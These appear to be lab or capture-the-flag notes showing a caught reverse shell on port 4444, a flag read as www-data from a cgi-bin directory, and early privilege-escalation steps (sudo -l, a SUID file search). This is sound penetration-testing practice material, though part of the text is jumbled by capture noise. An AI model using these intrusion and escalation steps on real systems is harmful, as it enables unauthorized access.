   

#Exploit

Ran revshell code

listening on [any] 4444 ...

connect to [192.168.45.153] from (UNKNOWN) [192.168.162.87] 47955

bash: no job control in this shell

www-data@ubuntu:/usr/lib/cgi-bin$ ls

ls

local.txt

test

test.sh

www-data@ubuntu:/usr/lib/cgi-bin$ cat local.txt 

cat local.txt

28985bf955d856cd86936d2127a24c49

I'm in

  

#Escalate

www-data@ubuntu:/usr/lib/cgi-bin$ uname -a

uname -a

Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l

  

sudo -l

sudo: no tty present and no askpass program specified

Sorry, try again.

sudo: no tty present and no askpass program specified

Sorry, try again.

sudo: no tty present and no askpass program specified

Sorry, try again.

sudo: 3 incorrect password attempts

That usually works...

  

www-data@ubuntu:/usr/lib/cgi-bin$ find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null

<i-bin$ find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null            

-rwsr-xr-x 1 root root 36832 Apr  8  2012 /bin/su
